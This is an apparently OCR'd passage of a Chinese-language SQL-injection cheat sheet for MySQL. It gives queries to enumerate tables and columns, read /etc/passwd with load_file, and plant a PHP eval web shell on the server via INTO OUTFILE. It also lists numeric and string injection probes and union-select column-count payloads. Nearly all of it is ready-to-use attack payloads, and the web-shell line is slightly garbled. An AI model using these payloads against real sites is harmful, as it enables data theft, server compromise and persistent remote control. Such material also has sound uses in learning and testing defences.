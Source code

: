 > **mysql>5.6**

**`select distinct(table_name) from mysql.innodb_index_stats;`**

**列名**

**`select group_concat(column_name) from information_schema.columns where table_name='column_name_xxx';`**

**读文件**

**`select load_file('/etc/passwd');`**

**写文件**

**`select '<?php @eval($_POST[1]);?> into outfile '/var/www/html/shell.php';`**

### 注入技术

#### Union 注入

**判断是否可以注入**

**假设有`www.test.com/?id=1`**

**数值型注入**

**`?id=1+1`**

**`?id=-1 or 1=1`**

**`?id=-1 or 10-2=8`**

**`?id=1 and 1=2`**

**`?id=1 and 1=1`**

**字符型注入**

**`?id=1'`**

**`?id=1"`**

**`?id=1' and '1' = '1`**

**`?id=1" and "1" = "1`**

**`?id=1')`**

**`?id=1")`**

**`?id=1') and '1'='1`**

**`?id=1") and "1" = "1`**

**查询列数**

**用`union select` 注入时，若后面要注出的数据的列与原数据列数不同，则会失败。所以需要先猜解列数。**

**`union select 1,2,3 #`**

**`union all select 1,2,3 #`**

**`union all select null,null,null #`**
